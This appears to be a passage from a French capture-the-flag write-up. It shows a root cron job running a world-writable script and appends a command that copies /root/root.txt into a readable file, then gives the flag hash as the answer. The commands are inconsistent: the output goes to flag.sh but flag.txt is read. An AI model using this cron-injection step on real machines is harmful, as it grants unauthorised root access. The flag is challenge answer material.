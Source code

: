 ```bash
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	root	cd /home/jack && bash id.sh
#

```

Ici on voit qu'il un script id.sh qui est en mode écriture pour tout le monde.  
De plus en regardant dans la configuration crontab on remarque que le script est appellé avec les droits root.  

```bash
echo "cat /root/root.txt > flag.sh" >> id.sh
cat flag.txt
d89d5391984c0450a95497153ae7ca3a
```

On modifie le fichier pour le script écrit le réponse dans un fichier que l'on a droit de lire.  
On lit le fichier.  

La réponse est : d89d5391984c0450a95497153ae7ca3a  